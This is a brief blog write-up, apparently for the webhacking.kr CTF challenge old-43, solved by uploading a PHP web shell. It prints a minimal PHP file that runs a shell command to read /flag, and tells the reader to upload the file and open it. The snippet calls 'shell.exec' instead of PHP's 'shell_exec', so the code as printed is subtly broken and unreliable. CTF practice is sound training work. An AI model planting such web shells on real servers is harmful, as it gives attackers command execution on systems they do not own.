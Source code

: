 ```yaml
---
layout: post
permalink: /posts/webhackingkr/old-43
title: "Webhacking.kr write-up: old-43"
date: 2020-09-12 12:56
tags: webhacking.kr php
description: "Welcome to my webhacking.kr CTF writeup. Today's task is rather simple, upload a PHP web shell, and complete the challenge."
---
```


Link | point | tag
-----|-------|----
[old-43](http://webhacking.kr:10004/) | 250 | PHP

Hello, hello, and hello there. Welcome to my webhacking.kr CTF writeup. Today's task is rather simple, upload a PHP web shell, and complete the challenge.

![question](/assets/images/webhackingkr/2020-09-12-old-43/1.png)

Just follow the instruction by creating a simple PHP file.

```php
<?php
$output = shell.exec('cat /flag');
echo "$output";
?>
```

Save it as a .php file, upload it and visit the uploaded file.

![solve](/assets/images/webhackingkr/2020-09-12-old-43/2.png)

P/s: try decode the base64 text and that is what I thought.
